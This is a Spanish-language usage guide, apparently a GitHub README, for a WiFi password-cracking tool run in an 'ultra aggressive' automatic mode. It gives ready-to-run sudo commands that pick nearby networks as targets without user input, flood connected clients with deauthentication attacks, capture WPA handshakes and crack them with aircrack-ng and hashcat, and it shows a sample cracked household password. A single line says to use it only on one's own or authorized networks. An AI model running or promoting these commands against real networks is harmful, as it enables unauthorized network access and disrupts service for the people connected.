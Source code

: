 # WiFi Auditor Pro v2.0 - MODO ULTRA AGRESIVO
## Ejemplos de Uso para Obtener Contraseñas WiFi

### 🚀 MODO ULTRA AGRESIVO AUTOMÁTICO (RECOMENDADO)

#### Opción 1: Modo Completamente Automático
```bash
sudo python3 wifi_auditor_pro.py --auto
```
**¿Qué hace?**
- ✅ Selecciona automáticamente los mejores objetivos
- ✅ Prioriza redes con clientes conectados
- ✅ Genera wordlists inteligentes personalizadas
- ✅ Ataque paralelo con múltiples herramientas
- ✅ NO requiere intervención del usuario

#### Opción 2: Modo Caza (Busca hasta encontrar contraseñas)
```bash
sudo python3 wifi_auditor_pro.py --hunt --max-targets 3
```
**¿Qué hace?**
- 🎯 Modo "implacable" que no se detiene
- 🎯 Busca hasta encontrar al menos una contraseña
- 🎯 Limita a 3 objetivos simultáneos
- 🎯 Ultra agresivo en captura de handshakes

### ⚡ MODOS RÁPIDOS

#### Escaneo Rápido + Auto
```bash
sudo python3 wifi_auditor_pro.py --auto --time 15 -v
```

#### Solo Redes con Clientes (Más Efectivo)
```bash
sudo python3 wifi_auditor_pro.py --auto --time 20 --max-targets 2
```

### 🎛️ OPCIONES AVANZADAS

#### Interfaz Específica + Modo Verboso
```bash
sudo python3 wifi_auditor_pro.py --auto -i wlan0 -v
```

#### Solo Captura (Sin Cracking)
```bash
sudo python3 wifi_auditor_pro.py --auto --no-crack --time 30
```

### 📊 CÓMO FUNCIONA EL MODO ULTRA AGRESIVO

1. **Selección Inteligente de Objetivos**:
   - 🟢 **Score Alto**: Redes con clientes + buena señal + WPS
   - 🟡 **Score Medio**: Buena señal pero sin clientes
   - 🔴 **Score Bajo**: Señal débil y sin clientes

2. **Captura de Handshake Ultra Agresiva**:
   - 📡 **3 capturas simultáneas**: airodump-ng + tshark + tcpdump
   - 💥 **Bombardeo masivo**: 8+ procesos de deauth continuos
   - ⚡ **Técnicas múltiples**: aireplay-ng + mdk3 + velocidades variables

3. **Cracking Paralelo Inteligente**:
   - 🧠 **Wordlist personalizada**: Basada en ESSID, BSSID y patrones latinos
   - 🔄 **Ataques paralelos**: aircrack-ng + hashcat simultáneamente
   - 🎯 **Top 5 wordlists**: En paralelo por prioridad

### 📈 ESTRATEGIAS DE ÉXITO

#### Para Máximo Éxito:
```bash
# Estrategia recomendada
sudo python3 wifi_auditor_pro.py --hunt --time 30 --max-targets 2 -v

# Si hay muchas redes
sudo python3 wifi_auditor_pro.py --auto --time 45 --max-targets 5
```

#### Para Redes Difíciles:
```bash
# Más tiempo de escaneo + modo caza
sudo python3 wifi_auditor_pro.py --hunt --time 60 --max-targets 1 -v
```

### 🔧 UTILIDADES ADICIONALES

#### Analizar Resultados:
```bash
python3 wifi_utils.py convert resultado.json html
python3 wifi_utils.py analyze wordlists/rockyou.txt
```

#### Optimizar Wordlists:
```bash
python3 wifi_utils.py optimize entrada.txt salida_optimizada.txt
python3 wifi_utils.py generate "FamiliaGarcia" "CasaPedro" -o custom.txt
```

### 🎯 CONSEJOS PARA OBTENER CONTRASEÑAS

1. **Usa siempre el modo `--auto`**: Selecciona los mejores objetivos automáticamente
2. **Prioriza redes con clientes**: Son 10x más fáciles de crackear
3. **Deja tiempo suficiente**: 30-45 segundos de escaneo inicial
4. **Modo `--hunt` para redes difíciles**: No se rinde hasta encontrar contraseñas
5. **Revisa los logs**: Información detallada del progreso

### 🚨 INFORMACIÓN IMPORTANTE

- **Permisos**: Siempre ejecutar con `sudo`
- **Dependencias**: Ejecutar `sudo ./install_dependencies.sh` primero
- **Legal**: Solo para redes propias o con autorización expresa
- **Paciencia**: El modo ultra agresivo puede tomar tiempo pero es muy efectivo

### 📂 ARCHIVOS GENERADOS

- `handshakes/`: Handshakes capturados
- `audit_results_*.json`: Resultados en JSON
- `audit_session_*.log`: Logs detallados
- `wordlists/ultra_custom_*.txt`: Wordlists personalizadas

### 🎉 EJEMPLO DE SALIDA EXITOSA

```
🎆 CONTRASEÑA ENCONTRADA! 🎆
Red: FamiliaGarcia
Contraseña: garcia123
Método: Dictionary Attack
Herramienta: aircrack-ng (AC-0)
```

¡Tu WiFi Auditor Ultra Agresivo está listo para obtener contraseñas de manera completamente automática!